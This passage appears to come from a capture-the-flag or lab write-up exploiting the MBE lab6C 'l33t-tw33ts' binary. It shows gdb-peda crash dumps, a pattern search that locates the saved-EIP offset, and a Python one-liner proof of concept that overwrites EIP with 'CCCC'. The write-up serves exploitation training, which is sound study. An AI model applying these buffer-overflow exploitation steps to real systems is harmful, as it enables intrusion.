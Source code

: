 ```nasm
[----------------------------------registers-----------------------------------]
EAX: 0xf
EBX: 0x41417741 ('AwAA')
ECX: 0xb7759000 (">>: >: Tweet sent!\n", 'A' <repeats 37 times>, "\372>: Tweet @Unix-Dude\n")
EDX: 0xb774f898 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x79414178 ('xAAy')
ESP: 0xbfd493c0 ("%%A%sA%BA%%nA%CA%-A%(A%DA%;A%)A%EA%aA%0\n")
EIP: 0x417a4141 ('AAzA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x417a4141
[------------------------------------stack-------------------------------------]
0000| 0xbfd493c0 ("%%A%sA%BA%%nA%CA%-A%(A%DA%;A%)A%EA%aA%0\n")
0004| 0xbfd493c4 ("sA%BA%%nA%CA%-A%(A%DA%;A%)A%EA%aA%0\n")
0008| 0xbfd493c8 ("A%%nA%CA%-A%(A%DA%;A%)A%EA%aA%0\n")
0012| 0xbfd493cc ("A%CA%-A%(A%DA%;A%)A%EA%aA%0\n")
0016| 0xbfd493d0 ("%-A%(A%DA%;A%)A%EA%aA%0\n")
0020| 0xbfd493d4 ("(A%DA%;A%)A%EA%aA%0\n")
0024| 0xbfd493d8 ("A%;A%)A%EA%aA%0\n")
0028| 0xbfd493dc ("%)A%EA%aA%0\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x417a4141 in ?? ()
gdb-peda$ pattern_search
Registers contain pattern buffer:
EIP+0 found at offset: 205
EBX+0 found at offset: 197
EBP+0 found at offset: 201
Registers point to pattern buffer:
[ESP] --> offset 209 - size ~41
Pattern buffer found at:
0xb77580fc : offset  221 - size   29 (mapped)
0xbfd48fa2 : offset  221 - size   29 ($sp + -0x41e [-264 dwords])
0xbfd493ca : offset  221 - size   29 ($sp + 0xa [2 dwords])
Reference to pattern buffer not found in memory
```

Now, let's edit our PoC with a proper buffer size and take control of **EIP**.

```nasm
gdb-peda$ r < <(python -c "print(40 * 'A' + '\xfa\n' + 196 * 'B' + 'CCCC\n')")
Starting program: /levels/lab06/lab6C < <(python -c "print(40 * 'A' + '\xfa\n' + 196 * 'B' + 'CCCC\n')")
--------------------------------------------
|   ~Welcome to l33t-tw33ts ~    v.0.13.37 |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Tweet @Unix-Dude
>>: >: Tweet sent!

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xf
EBX: 0x42424242 ('BBBB')
ECX: 0xb7736000 (">>: >: Tweet sent!\n", 'A' <repeats 37 times>, "\372>: Tweet @Unix-Dude\n")
EDX: 0xb772c898 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x42424242 ('BBBB')
ESP: 0xbffc6900 --> 0xa ('\n')
EIP: 0x43434343 ('CCCC')
```